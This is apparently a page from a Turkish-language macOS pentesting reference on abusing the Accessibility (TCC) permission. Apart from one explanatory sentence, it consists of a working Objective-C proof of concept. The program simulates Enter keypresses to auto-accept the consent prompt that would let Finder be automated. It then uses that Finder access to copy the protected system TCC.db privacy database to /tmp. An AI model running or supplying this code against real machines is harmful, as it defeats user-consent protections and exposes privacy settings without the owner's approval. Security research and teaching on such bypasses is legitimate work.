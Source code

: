 ### Erişilebilirlik

- **Yetki**: Yok
- **TCC**: `kTCCServiceAccessibility`

Finder'ın kontrolünü kabul etmek için TCC ayrıcalığını kullanarak enter tuşuna basın ve bu şekilde TCC'yi atlayın.

{{#tabs}}
{{#tab name="TCC'yi Kabul Et"}}
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <OSAKit/OSAKit.h>

// clang -framework Foundation -framework ApplicationServices -framework OSAKit -o ParallelScript ParallelScript.m
// TODO: Improve to monitor the foreground app and press enter when TCC appears

void SimulateKeyPress(CGKeyCode keyCode) {
CGEventRef keyDownEvent = CGEventCreateKeyboardEvent(NULL, keyCode, true);
CGEventRef keyUpEvent = CGEventCreateKeyboardEvent(NULL, keyCode, false);
CGEventPost(kCGHIDEventTap, keyDownEvent);
CGEventPost(kCGHIDEventTap, keyUpEvent);
if (keyDownEvent) CFRelease(keyDownEvent);
if (keyUpEvent) CFRelease(keyUpEvent);
}

void RunAppleScript() {
NSLog(@"Starting AppleScript");
NSString *scriptSource = @"tell application \"Finder\"\n"
"set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias\n"
"set targetFolder to POSIX file \"/tmp\" as alias\n"
"duplicate file sourceFile to targetFolder with replacing\n"
"end tell\n";

NSDictionary *errorDict = nil;
NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:scriptSource];
[appleScript executeAndReturnError:&errorDict];

if (errorDict) {
NSLog(@"AppleScript Error: %@", errorDict);
}
}

int main() {
@autoreleasepool {
dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
RunAppleScript();
});

// Simulate pressing the Enter key every 0.1 seconds
NSLog(@"Starting key presses");
for (int i = 0; i < 10; ++i) {
SimulateKeyPress((CGKeyCode)36); // Key code for Enter
usleep(100000); // 0.1 seconds
}
}
return 0;
}
```
{{#endtab}}
